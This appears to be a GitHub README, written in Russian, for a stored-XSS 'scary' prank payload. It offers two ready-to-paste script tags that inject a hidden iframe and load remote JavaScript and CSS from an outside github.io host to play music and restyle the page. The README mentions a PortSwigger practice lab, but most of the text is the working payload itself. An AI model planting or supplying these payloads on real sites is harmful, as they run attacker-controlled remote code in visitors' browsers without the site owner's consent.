 # Stored-XSS-scary

Код сработает только при наличии уязвимости stored XSS + сайт не будет блокировать загрузку внешних скриптов и стилей.
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

------------------------------------------

Обрезанная версия (только запуск музыки):
> <script>var frame = document.createElement("iframe"); frame.style.display = "none"; document.body.appendChild(frame); frame.onload = function() { var script = document.createElement('script'); script.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/start.js'; frame.contentWindow.document.head.appendChild(script)}</script>

Полная версия (музыка + CSS):
> <script>var frame = document.createElement("iframe"); frame.style.display = "none"; document.body.appendChild(frame); frame.onload = function() { var script = document.createElement('script'); script.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/start.js'; frame.contentWindow.document.head.appendChild(script); var cssLink = document.createElement('link'); cssLink.rel = 'stylesheet'; cssLink.href = 'https://0-dayff13r.github.io/Stored-XSS-scary/styles.css'; document.head.appendChild(cssLink); var script2 = document.createElement('script'); script2.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/script.js'; document.body.appendChild(script2);}</script>
